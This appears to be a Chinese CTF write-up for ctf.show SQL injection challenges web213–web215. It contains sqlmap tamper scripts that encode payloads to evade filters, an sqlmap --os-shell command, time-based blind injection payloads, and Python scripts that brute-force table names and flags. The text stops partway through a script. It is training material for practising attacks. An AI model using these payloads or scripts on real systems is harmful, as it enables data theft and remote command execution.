<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python</span></span><br><span class="line"></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">Copyright (c) 2006-2023 sqlmap developers (https://sqlmap.org/)</span></span><br><span class="line"><span class="string">See the file &#x27;LICENSE&#x27; for copying permission</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">from</span> lib.core.compat <span class="keyword">import</span> xrange</span><br><span class="line"><span class="keyword">from</span> lib.core.enums <span class="keyword">import</span> PRIORITY</span><br><span class="line"></span><br><span class="line">__priority__ = PRIORITY.LOW</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">dependencies</span>():</span><br><span class="line">    <span class="keyword">pass</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">tamper</span>(<span class="params">payload, **kwargs</span>):</span><br><span class="line">    retVal = payload</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span> payload:</span><br><span class="line">        retVal = retVal.replace(<span class="string">&#x27;-- -&#x27;</span>,<span class="string">&#x27;#&#x27;</span>)</span><br><span class="line">        retVal = retVal.replace(<span class="string">&#x27; &#x27;</span>,<span class="built_in">chr</span>(<span class="number">0x0a</span>))</span><br><span class="line">        retVal = retVal.replace(<span class="string">&#x27;=&#x27;</span>,<span class="built_in">chr</span>(<span class="number">0x0a</span>)+<span class="string">&#x27;like&#x27;</span>+<span class="built_in">chr</span>(<span class="number">0x0a</span>))</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> retVal</span><br></pre></td></tr></table></figure>

<p><code>doubleSelect3.py</code></p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python</span></span><br><span class="line"></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">Copyright (c) 2006-2023 sqlmap developers (https://sqlmap.org/)</span></span><br><span class="line"><span class="string">See the file &#x27;LICENSE&#x27; for copying permission</span></span><br><span class="line"><span class="string">&quot;&quot;&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">from</span> lib.core.compat <span class="keyword">import</span> xrange</span><br><span class="line"><span class="keyword">from</span> lib.core.enums <span class="keyword">import</span> PRIORITY</span><br><span class="line"><span class="keyword">import</span> base64</span><br><span class="line"></span><br><span class="line">__priority__ = PRIORITY.LOW</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">dependencies</span>():</span><br><span class="line">    <span class="keyword">pass</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">encode</span>(<span class="params">a</span>):</span><br><span class="line">    a1 = a.encode(<span class="string">&#x27;utf-8&#x27;</span>)[::-<span class="number">1</span>]</span><br><span class="line">    a2 = base64.b64encode(a1)[::-<span class="number">1</span>]</span><br><span class="line">    a3 = base64.b64encode(a2)</span><br><span class="line">    <span class="keyword">return</span> a3.decode(<span class="string">&#x27;utf-8&#x27;</span>)</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">tamper</span>(<span class="params">payload, **kwargs</span>):</span><br><span class="line">    retVal = payload</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span> payload:</span><br><span class="line">        retVal = encode(retVal)</span><br><span class="line"></span><br><span class="line">    <span class="keyword">return</span> retVal</span><br></pre></td></tr></table></figure>


<h1 id="web213"><a href="#web213" class="headerlink" title="web213"></a>web213</h1><h2 id="原始信息-121"><a href="#原始信息-121" class="headerlink" title="原始信息"></a>原始信息</h2><p><a target="_blank" rel="noopener" href="https://ctfshow.lanzoui.com/i4wlziac1de">sqlmap最新版下载</a></p>
<p>练习使用–os-shell 一键getshell</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,pass from ctfshow_user where id = &#x27;&quot;</span>.<span class="variable">$id</span>.<span class="string">&quot;&#x27; limit 0,1;&quot;</span>;     </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对查询字符进行解密</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">decode</span>(<span class="params"><span class="variable">$id</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">base64_decode</span>(<span class="variable">$id</span>))));</span><br><span class="line">  &#125;</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ |\*/&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-116"><a href="#解题-116" class="headerlink" title="解题"></a>解题</h2><p>这次是反弹shell，如果是按照上一道题目的payload是能直接出库的，但是要求是反弹shell，思考其它方法。</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap -u <span class="string">&quot;http://f0c0fe5c-0ca6-484c-9658-f87fb296b6e9.challenge.ctf.show/api/index.php&quot;</span> --referer <span class="string">&quot;ctf.show&quot;</span> --user-agent <span class="string">&quot;sqlmap&quot;</span> --method <span class="string">&quot;PUT&quot;</span> --header <span class="string">&quot;Content-Type: text/plain&quot;</span> --safe-url <span class="string">&quot;http://f0c0fe5c-0ca6-484c-9658-f87fb296b6e9.challenge.ctf.show/api/getToken.php&quot;</span> --safe-freq=1 --cookie <span class="string">&quot;PHPSESSID=vbmv8jgp739bbhen98d14dpn9c&quot;</span> --tamper <span class="string">&quot;doubleSelect2,doubleSelect3&quot;</span> --thread=10 --data <span class="string">&quot;id=1&quot;</span> -p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_user --os-shell</span><br></pre></td></tr></table></figure>

<p>进去后全部默认，转到反弹的shell，通过cat去获取根目录的flag即可。</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">sqlmap </span><br><span class="line">-u <span class="string">&quot;http://f0c0fe5c-0ca6-484c-9658-f87fb296b6e9.challenge.ctf.show/api/index.php&quot;</span> </span><br><span class="line">--referer <span class="string">&quot;ctf.show&quot;</span> </span><br><span class="line">--user-agent <span class="string">&quot;sqlmap&quot;</span> </span><br><span class="line">--method <span class="string">&quot;PUT&quot;</span> </span><br><span class="line">--header <span class="string">&quot;Content-Type: text/plain&quot;</span></span><br><span class="line">--safe-url <span class="string">&quot;http://f0c0fe5c-0ca6-484c-9658-f87fb296b6e9.challenge.ctf.show/api/getToken.php&quot;</span> </span><br><span class="line">--safe-freq=1 </span><br><span class="line">--cookie <span class="string">&quot;PHPSESSID=vbmv8jgp739bbhen98d14dpn9c&quot;</span> </span><br><span class="line">--tamper <span class="string">&quot;doubleSelect2,doubleSelect3&quot;</span> </span><br><span class="line">--thread=10 </span><br><span class="line">--data <span class="string">&quot;id=1&quot;</span></span><br><span class="line">-p <span class="built_in">id</span> -D ctfshow_web -T ctfshow_user </span><br><span class="line">--os-shell</span><br></pre></td></tr></table></figure>

<p>上面两个插件依旧沿用上一道题的插件即可。</p>
<h1 id="web214–时间盲注"><a href="#web214–时间盲注" class="headerlink" title="web214–时间盲注"></a>web214–时间盲注</h1><h2 id="原始信息-122"><a href="#原始信息-122" class="headerlink" title="原始信息"></a>原始信息</h2><p>开始基于时间盲注</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//无</span></span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-117"><a href="#解题-117" class="headerlink" title="解题"></a>解题</h2><p>啥都没有的情况，刷新页面看抓包信息，抓到一个敏感数据包：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">POST /api/ HTTP/1.1</span><br><span class="line">Host: 6e127c7d-8aac-4895-b9bc-347848f17a0d.challenge.ctf.show</span><br><span class="line">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0</span><br><span class="line">Accept: application/json, text/javascript, */*; q=0.01</span><br><span class="line">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span><br><span class="line">Accept-Encoding: gzip, deflate</span><br><span class="line">Content-Type: application/x-www-form-urlencoded; charset=UTF-8</span><br><span class="line">X-Requested-With: XMLHttpRequest</span><br><span class="line">Content-Length: 20</span><br><span class="line">Origin: http://6e127c7d-8aac-4895-b9bc-347848f17a0d.challenge.ctf.show</span><br><span class="line">Connection: close</span><br><span class="line">Referer: http://6e127c7d-8aac-4895-b9bc-347848f17a0d.challenge.ctf.show/index.php</span><br><span class="line">Cookie: PHPSESSID=jq29mbfflirbma38u1sr7u5i3f</span><br><span class="line"></span><br><span class="line">ip=127.0.0.1&amp;debug=0</span><br></pre></td></tr></table></figure>

<p>得到明显的注入点：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">ip=127.0.0.1&amp;debug=0</span><br></pre></td></tr></table></figure>

<p>尝试修改ip，得到正确的延时回显：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">ip<span class="operator">=</span>if(<span class="number">1</span>,sleep(<span class="number">5</span>),<span class="number">1</span>)<span class="operator">&amp;</span>debug<span class="operator">=</span><span class="number">0</span></span><br></pre></td></tr></table></figure>

<p>开始测表：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">ip=<span class="keyword">if</span>(mid((select(group_concat(table_name))from(information_schema.tables)<span class="built_in">where</span>(table_schema=database())),1,1)=<span class="string">&#x27;a&#x27;</span>,<span class="built_in">sleep</span>(5),1)&amp;debug=0</span><br></pre></td></tr></table></figure>

<p>使用bp爆破，对应的注点在 a，以及a左边算起第二个1。</p>
<p>爆出来的表名字：<code>ctfshow_info,ctfshow_flagx</code></p>
<p>再尝试去爆字段:</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">ip=<span class="keyword">if</span>(mid((select(group_concat(column_name))from(information_schema.columns)<span class="built_in">where</span>(table_name=<span class="string">&#x27;ctfshow_flagx&#x27;</span>)),1,1)=<span class="string">&#x27;a&#x27;</span>,<span class="built_in">sleep</span>(5),1)&amp;debug=0</span><br></pre></td></tr></table></figure>

<p>爆破出来的列名：<code>id,flaga,info</code></p>
<p>如果是另外一张表：<code>id,ip,cname</code></p>
<p>最后尝试爆出flag：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">ip<span class="operator">=</span>if(mid((<span class="keyword">select</span>(group_concat(flaga))<span class="keyword">where</span>(ctfshow_flagx)),<span class="number">1</span>,<span class="number">1</span>)<span class="operator">=</span><span class="string">&#x27;a&#x27;</span>,sleep(<span class="number">5</span>),<span class="number">1</span>)<span class="operator">&amp;</span>debug<span class="operator">=</span><span class="number">0</span></span><br></pre></td></tr></table></figure>

<p>这个flag关键字明显被过滤了，使用堆叠去注入他的表名：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># 改了半天，下面这个是正确的</span><br><span class="line">#直接堆叠，再获取flag列的值。致命的弱点在于空格限制。</span><br><span class="line">if(<span class="built_in">substring</span>((<span class="keyword">select</span> group_concat(una) e <span class="keyword">from</span> (<span class="keyword">select</span> <span class="number">1</span>,<span class="string">&#x27;una&#x27;</span>,<span class="number">3</span> <span class="keyword">union</span> <span class="keyword">select</span> <span class="operator">*</span> <span class="keyword">from</span> test1) a),<span class="number">5</span>,<span class="number">1</span>)<span class="operator">=</span><span class="string">&#x27;a&#x27;</span>,sleep(<span class="number">3</span>),<span class="number">1</span>)</span><br><span class="line">ctfshow&#123;<span class="number">2</span>ae0af79<span class="number">-57</span>de<span class="number">-45</span>c5<span class="number">-91</span>ed<span class="operator">-</span>cb573e5da40d&#125;</span><br></pre></td></tr></table></figure>

<p>如果是脚本跑的话……可以参考下面，Burp速度虽然快，但是flag要自己手动拼接。而下面的脚本，速度虽然慢，但会主动拼接脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time</span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData</span>(<span class="params">url,payload,flag=<span class="string">&quot;&quot;</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,flagStrDict=<span class="string">&quot;&#123;&#125;ctfshow-0123456789abdegijklmnpqruvxyz&quot;</span></span>):</span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        mf = <span class="number">0</span></span><br><span class="line">        <span class="keyword">for</span> mid <span class="keyword">in</span> flagStrDict:</span><br><span class="line"></span><br><span class="line">            data = &#123;</span><br><span class="line">                <span class="string">&quot;ip&quot;</span>:payload.<span class="built_in">format</span>(i,mid),</span><br><span class="line">                <span class="string">&quot;debug&quot;</span>:<span class="number">1</span></span><br><span class="line">            &#125;</span><br><span class="line"></span><br><span class="line">            t = time.time()</span><br><span class="line">            req = requests.post(url=urls, headers=headers, data=data)</span><br><span class="line">            endTime = time.time() - t</span><br><span class="line">            time.sleep(<span class="number">0.3</span>)</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">f&quot;find time: <span class="subst">&#123;endTime&#125;</span> s \t and find payload: <span class="subst">&#123;payload.<span class="built_in">format</span>(i,mid)&#125;</span>&quot;</span>)</span><br><span class="line">            <span class="keyword">if</span> endTime &gt;= <span class="number">3</span>:</span><br><span class="line">                flag += mid</span><br><span class="line">                <span class="built_in">print</span>(flag)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">            <span class="keyword">else</span>:</span><br><span class="line">                mf += <span class="number">1</span></span><br><span class="line">                <span class="comment"># print(payload.format(i,mid))</span></span><br><span class="line">        <span class="keyword">if</span> mf == <span class="built_in">len</span>(flagStrDict):</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;flag is :&quot;</span>+flag)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        <span class="comment"># print(req.content)</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;&#123;&#125;ctfshow-0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    </span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web214</span>():</span><br><span class="line">        url = <span class="string">&quot;http://7959807f-42f7-48f2-b2fe-ff5b2f8338eb.challenge.ctf.show/&quot;</span></span><br><span class="line">        <span class="comment"># find tables</span></span><br><span class="line">        payload1 = <span class="string">&quot;if(mid((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)&quot;</span></span><br><span class="line">        <span class="comment"># find columns</span></span><br><span class="line">        payload2 = <span class="string">&quot;if(mid((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagx&#x27;)),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)&quot;</span></span><br><span class="line">        <span class="comment"># find flag</span></span><br><span class="line">        payload3 = <span class="string">&quot;if(substring((select group_concat(una) e from (select 1,&#x27;una&#x27;,3 union select * from test1) a),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)&quot;</span></span><br><span class="line">        GetData(url,payload=payload1,flagStrDict=flagStrDict1)</span><br><span class="line">        GetData(url,payload=payload2,flagStrDict=flagStrDict1)</span><br><span class="line">        GetData(url,payload=payload3,flagStrDict=flagStrDict2,start=<span class="number">5</span>,end=<span class="number">55</span>)</span><br><span class="line"></span><br><span class="line">    web214()</span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>这个脚本因为是单线程爆破，很大程度上会受到网络波动的影响。最好就放BP进行快爆吧。</p>
<p>上面的payload3是爆破flag的，但是……总是失效，具体原因不知道，但确实是爆出来flag过 <code> ╮(╯_╰)╭</code> …</p>
<p>稍微改装了下脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">import</span> requests,time</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData2</span>(<span class="params">url,payload,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,flagStrDict=<span class="string">&quot;&#123;&#125;ctfshow-0123456789abdegijklmnpqruvxyz&quot;</span></span>):</span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        mf = <span class="number">0</span></span><br><span class="line">        <span class="keyword">for</span> mid <span class="keyword">in</span> flagStrDict:</span><br><span class="line"></span><br><span class="line">            data = &#123;</span><br><span class="line">                <span class="string">&quot;ip&quot;</span>:payload.<span class="built_in">format</span>(i,mid),</span><br><span class="line">                <span class="string">&quot;debug&quot;</span>:<span class="number">1</span></span><br><span class="line">            &#125;</span><br><span class="line"></span><br><span class="line">            <span class="keyword">try</span>:</span><br><span class="line">                t = time.time()</span><br><span class="line">                req = requests.post(url=urls, headers=headers, data=data,timeout=timeout)</span><br><span class="line">                endTime = time.time() - t</span><br><span class="line">                time.sleep(<span class="number">0.3</span>)</span><br><span class="line">                mf += <span class="number">1</span></span><br><span class="line">                <span class="built_in">print</span>(<span class="string">f&quot;find time: <span class="subst">&#123;<span class="built_in">int</span>(endTime)&#125;</span> s \t and find payload: <span class="subst">&#123;payload.<span class="built_in">format</span>(i,mid)&#125;</span>&quot;</span>)</span><br><span class="line">            <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                flag += mid</span><br><span class="line">                <span class="built_in">print</span>(flag)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">                <span class="comment"># print(payload.format(i,mid))</span></span><br><span class="line">        <span class="keyword">if</span> mf == <span class="built_in">len</span>(flagStrDict):</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;flag is :&quot;</span>+flag)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;&#123;&#125;ctfshow-0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web214</span>():</span><br><span class="line">        url = <span class="string">&quot;http://13f1f1cf-dc0b-44ec-ac58-65536d39760f.challenge.ctf.show/&quot;</span></span><br><span class="line">        <span class="comment"># find tables</span></span><br><span class="line">        payload1 = <span class="string">&quot;if(mid((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)&quot;</span></span><br><span class="line">        <span class="comment"># find columns</span></span><br><span class="line">        payload2 = <span class="string">&quot;if(mid((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagx&#x27;)),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)&quot;</span></span><br><span class="line">        <span class="comment"># find flag</span></span><br><span class="line">        payload3 = <span class="string">&quot;if(substring((select flaga from ctfshow_flagx),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)&quot;</span></span><br><span class="line">        <span class="comment"># GetData2(url,payload=payload1,flagStrDict=flagStrDict1)</span></span><br><span class="line">        <span class="comment"># GetData2(url,payload=payload2,flagStrDict=flagStrDict1)</span></span><br><span class="line">        GetData2(url,payload=payload3,flagStrDict=flagStrDict2,start=<span class="number">1</span>,end=<span class="number">55</span>)</span><br><span class="line"></span><br><span class="line">    web214()</span><br></pre></td></tr></table></figure>


<h1 id="web215"><a href="#web215" class="headerlink" title="web215"></a>web215</h1><h2 id="原始信息-123"><a href="#原始信息-123" class="headerlink" title="原始信息"></a>原始信息</h2><p>开始基于时间盲注</p>
<p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//用了单引号</span></span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//屏蔽危险分子</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-118"><a href="#解题-118" class="headerlink" title="解题"></a>解题</h2><p>测试的时候不是过滤了单引号，而是新增了单引号。</p>
<p>下面是脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">GetData2</span>(<span class="params">url,payload,flagStrDict,flag=<span class="string">&quot;&quot;</span>,timeout=<span class="number">3</span>,start=<span class="number">1</span>,end=<span class="number">50</span>,mode=<span class="number">1</span></span>):</span><br><span class="line">    urls = url + <span class="string">&quot;api/&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded;charset=UTF-8&quot;</span>,</span><br><span class="line">        <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept&quot;</span>: <span class="string">&quot;application/json, text/javascript, */*; q=0.01&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Language&quot;</span>: <span class="string">&quot;zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Accept-Encoding&quot;</span>: <span class="string">&quot;gzip, deflate&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Connection&quot;</span>: <span class="string">&quot;keep-alive&quot;</span>,</span><br><span class="line">        <span class="string">&quot;X-Requested-With&quot;</span>: <span class="string">&quot;XMLHttpRequest&quot;</span>,</span><br><span class="line">        <span class="string">&quot;Origin&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Referer&quot;</span>: url,</span><br><span class="line">        <span class="string">&quot;Cookie&quot;</span>: <span class="string">&quot;PHPSESSID=jq29mbfflirbma38u1sr7u5i3f&quot;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(start,end):</span><br><span class="line">        mf = <span class="number">0</span></span><br><span class="line">        <span class="keyword">for</span> mid <span class="keyword">in</span> flagStrDict:</span><br><span class="line"></span><br><span class="line">            data = &#123;</span><br><span class="line">                <span class="string">&quot;ip&quot;</span>:payload.<span class="built_in">format</span>(i,mid),</span><br><span class="line">                <span class="string">&quot;debug&quot;</span>:<span class="number">1</span></span><br><span class="line">            &#125;</span><br><span class="line"></span><br><span class="line">            <span class="keyword">try</span>:</span><br><span class="line">                t = time.time()</span><br><span class="line">                req = requests.post(url=urls, headers=headers, data=data,timeout=timeout)</span><br><span class="line">                endTime = time.time() - t</span><br><span class="line">                time.sleep(<span class="number">0.3</span>)</span><br><span class="line">                mf += <span class="number">1</span></span><br><span class="line">                <span class="built_in">print</span>(<span class="string">f&quot;find time: <span class="subst">&#123;<span class="built_in">int</span>(endTime)&#125;</span> s \t and find payload: <span class="subst">&#123;payload.<span class="built_in">format</span>(i,mid)&#125;</span>&quot;</span>)</span><br><span class="line">                <span class="comment"># print(req.content)</span></span><br><span class="line">            <span class="keyword">except</span> Exception <span class="keyword">as</span> e:</span><br><span class="line">                <span class="keyword">if</span> mode == <span class="number">1</span>:</span><br><span class="line">                    flag += mid</span><br><span class="line">                <span class="keyword">elif</span> mode == <span class="number">2</span>:</span><br><span class="line">                    flag += <span class="built_in">chr</span>(<span class="built_in">int</span>(mid,<span class="number">16</span>))</span><br><span class="line">                <span class="built_in">print</span>(flag)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">if</span> mf == <span class="built_in">len</span>(flagStrDict):</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;flag is :&quot;</span>+flag)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&quot;__main__&quot;</span>:</span><br><span class="line">    <span class="comment"># find database/tables/columns</span></span><br><span class="line">    flagStrDict1 = <span class="string">&quot;ctfshow,_0123456789abdegijklmnpqruvxyz&quot;</span></span><br><span class="line">    <span class="comment"># find flag</span></span><br><span class="line">    flagStrDict2 = <span class="string">&quot;-0123456789abdectfshowgijklmnpqruvxyz&#125;&#123;,_&quot;</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">web215</span>():</span><br><span class="line">        url = <span class="string">&quot;http://d86b4db8-c487-4cde-8209-1e104d9d5e51.challenge.ctf.show/&quot;</span></span><br><span class="line">        payload1 = <span class="string">&quot;select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())&quot;</span></span><br><span class="line">        payload2 = <span class="string">&quot;select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_flagxc&#x27;)&quot;</span></span><br><span class="line">        payload3 = <span class="string">&quot;select flagaa from ctfshow_flagxc&quot;</span></span><br><span class="line">        <span class="comment"># id,flagaa,info</span></span><br><span class="line">        <span class="comment"># GetData2(url,payload=&quot;&#x27;||if(mid((&quot;+payload1+&quot;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,sleep(3),1)||&#x27;&quot;,flagStrDict=flagStrDict1,timeout=5)</span></span><br><span class="line">        <span class="comment"># 